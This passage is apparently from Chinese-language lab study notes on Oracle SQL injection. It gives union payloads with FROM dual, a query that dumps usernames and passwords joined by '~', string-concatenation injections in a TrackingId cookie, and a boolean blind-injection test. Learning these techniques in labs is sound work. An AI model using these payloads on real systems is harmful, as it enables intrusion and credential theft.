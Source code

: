 说明一定是Oracle，因为只有Oracle的联合注入必须要加`from dual`

```SQL
' union select null.null FROM dual--		返回200正确
```

## Oracle常用符号之双管道序列

在Mysql和maria中是“或”的意思。

`||`做字符串的串联/链接

> 用合适的分隔符做分区组合

```SQL
' UNION SELECT username || '~' || password FROM users--
#表示把查询到的username和password用符号‘~’链接起来,即username~password
```

> 做链接的内容是执行后的sql语句

```SQL
TrackingId=xyz'||(SELECT '')||'
TrackingId=xyz'(SELECT '')'
```

## Oracle特有关键字和函数

- `ROWNUM`,限制查询的行数

  等同于MySQL的`limit`

- `to_char()`

  将数值型或者日期型转化为字符型

  > 1/0是必须加这个函数

- `SUBSTR(PASSWORD,1,1)`

  等同于Mysql中的SUBSTRING()函数

  > 截取字符串，从第一个位置截取长度为1的字符串

# 盲注

## T11布尔注入

> 正确会返回welcome back，但错误时不会回显任何东西，只会和原页面无异。
>
> 正确和错误都是200。

本例中注入点在cookie，抓包获得，判断是否可注,此处因为是字符变量，所以注入写成字符型

```SQL
TrackingId=skltCt9gC13tASAk' AND '1'=1
```
